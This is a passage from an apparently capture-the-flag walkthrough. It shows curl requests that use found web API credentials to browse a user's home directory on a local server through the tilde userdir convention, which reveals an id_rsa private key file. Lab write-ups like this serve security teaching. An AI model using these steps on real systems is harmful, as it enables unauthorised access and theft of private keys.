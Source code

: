 I tried to see if I could access the home directory since this process was being run as 

searched for how to access home directory in a URL and found

* [https://apple.stackexchange.com/questions/100570/getting-all-files-from-a-web-page-using-curl](https://apple.stackexchange.com/questions/100570/getting-all-files-from-a-web-page-using-curl)
* [https://stackoverflow.com/questions/3488603/how-do-i-use-tilde-in-the-context-of-paths](https://stackoverflow.com/questions/3488603/how-do-i-use-tilde-in-the-context-of-paths)

> Used in URLs, interpretation of the tilde as a shorthand for a user's home directory \(e.g., [http://www.foo.org/~bob](http://www.foo.org/~bob)\) is a convention borrowed from Unix. Implementation is entirely server-specific, so you'd need to check the documentation for your web server to see if it has any special meaning.

```text
$ curl -u webapi_user:iamthebest http://localhost:3001/~r.michaels
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   172    0   172    0     0  57333      0 --:--:-- --:--:-- --:--:-- 57333
<html><head><title>Document Moved</title></head>
<body><h1>Document Moved</h1>
This document had moved <a href="http://localhost:3001/~r.michaels/">here</a>
</body></html>
```

The post was related to python, but it seemed to work, at least somewhat

* [https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/](https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/)

it seems like the tilde thing is also used specifically in nginx

```text
$ curl -u webapi_user:iamthebest http://localhost:3001/~r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   117k      0 --:--:-- --:--:-- --:--:--  117k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```
